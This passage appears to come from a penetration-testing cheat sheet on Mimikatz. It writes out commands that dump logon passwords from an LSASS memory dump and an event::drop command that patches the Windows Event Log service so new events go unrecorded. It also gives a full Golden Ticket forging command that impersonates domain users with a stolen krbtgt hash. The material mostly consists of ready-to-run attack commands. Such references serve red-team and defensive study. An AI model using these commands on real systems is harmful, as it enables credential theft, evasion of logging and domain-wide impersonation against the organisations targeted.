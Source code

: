 ```
# privilege::debug
# sekurlsa::minidump lsass.dmp
# sekurlsa::logonpasswords
```

### Mimikatz Options <a href="#mimikatz-options" id="mimikatz-options"></a>

Event log tampering in Mimikatz involves two primary actions: clearing event logs and patching the Event service to prevent logging of new events. Below are the commands for performing these actions:

**Clearing Event Logs**

* **Command**: This action is aimed at deleting the event logs, making it harder to track malicious activities.
* Mimikatz does not provide a direct command in its standard documentation for clearing event logs directly via its command line. However, event log manipulation typically involves using system tools or scripts outside of Mimikatz to clear specific logs (e.g., using PowerShell or Windows Event Viewer).

**Experimental Feature: Patching the Event Service**

* **Command**: `event::drop`
* This experimental command is designed to modify the Event Logging Service's behavior, effectively preventing it from recording new events.
* Example: `mimikatz "privilege::debug" "event::drop" exit`
* The `privilege::debug` command ensures that Mimikatz operates with the necessary privileges to modify system services.
* The `event::drop` command then patches the Event Logging service.

#### Kerberos Ticket Attacks <a href="#kerberos-ticket-attacks" id="kerberos-ticket-attacks"></a>

#### Golden Ticket Creation <a href="#golden-ticket-creation" id="golden-ticket-creation"></a>

A Golden Ticket allows for domain-wide access impersonation. Key command and parameters:

* Command: `kerberos::golden`
* Parameters:
  * `/domain`: The domain name.
  * `/sid`: The domain's Security Identifier (SID).
  * `/user`: The username to impersonate.
  * `/krbtgt`: The NTLM hash of the domain's KDC service account.
  * `/ptt`: Directly injects the ticket into memory.
  * `/ticket`: Saves the ticket for later use.

Example:

{% code overflow="wrap" %}
```powershell
mimikatz "kerberos::golden /user:admin /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /krbtgt:ntlmhash /ptt" exit
```
{% endcode %}
